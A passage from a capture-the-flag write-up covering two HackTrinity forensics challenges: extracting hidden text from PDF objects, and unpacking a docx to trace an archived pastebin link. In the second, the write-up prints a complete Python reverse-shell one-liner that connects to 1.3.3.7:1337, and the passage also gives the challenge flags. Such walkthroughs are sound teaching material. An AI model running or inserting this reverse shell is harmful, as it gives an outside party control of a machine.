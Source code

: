 ![HackTrinity_Panic1.JPG](HackTrinity_Panic1.JPG)

I was quick to open up this suspicious object using the object command but all I got back was some giberrish I didn't know what to do with so before investigating that further I checked out every other object as well. Ultimately I only found one other object of note which was object 2 as it also had some gibberish hidden within it.

![HackTrinity_Panic2.JPG](HackTrinity_Panic2.JPG)
![HackTrinity_Panic3.JPG](HackTrinity_Panic3.JPG)

I noted that the object 2 data was labelled as flate decode which I had heard of before as a compression algorithm. After a bit of messing around I realised the data is already decompressed as I was using the "object" command instead of "rawobject". The data still looked like gibberish to me though so I decided to start looking up some snippets of the string. A search online for "/Im4 Do Q" led me to realise ths data was in fact encoded text. As it turns out PDF's have their own way of encoding text into a document. I began researching this encoding to see if I could write a simple program to reverse it but after a bit of reading it became clear that such a task would not be so easy. After a little while of deliberating I realised I could probably use someone else's tool to extract the strings from a pdf document. After finding [this website](https://www.extractpdf.com/) it gave me the flag.

![HackTrinity_Panic4.JPG](HackTrinity_Panic4.JPG)

> **Flag:** HackTrinity{th3_f1ag_supply_cha1ns_ar3_str0ng}
{: .prompt-info }

(I ended up solving this in quite the roundabout way as you can see but hopefully it helped you learn something about the pdf file format)

### Forensics - Out of Office

Similar to "Panic" you were given a "hacked.docx" file and told to investigate it. It didn't take me long to discover that a docx file can actually be unzipped by most decompression tools therefore I used 7zip and was greeted by a handful of files and folders.

![HackTrinity_Out_Of_Office1.JPG](HackTrinity_Out_Of_Office1.JPG)

After some searching around I opened one of the xml files called "item1.xml" and found the following pastebin url:

![HackTrinity_Out_Of_Office1.JPG](HackTrinity_Out_Of_Office2.JPG)

_However_ after quickly copying it over to my browser it returned a page not found error? I was left stumped for a short while before thinking of a website I had used many a time in the past called the [Wayback Machine](https://archive.org/web/) which stores archived versions of webpages. Sure enough there was one snapshot saved of this pastebin url and bingo some code was hidden within:

```python
python - c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.3.3.7",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'#
all the 1337 hackers have a signature right ? SGFja1RyaW5pdHl7QWxXQHk1X0MxM2FOX1VwX0BmdDNyX3kwdVJfSEBjazV9Cg ==
```
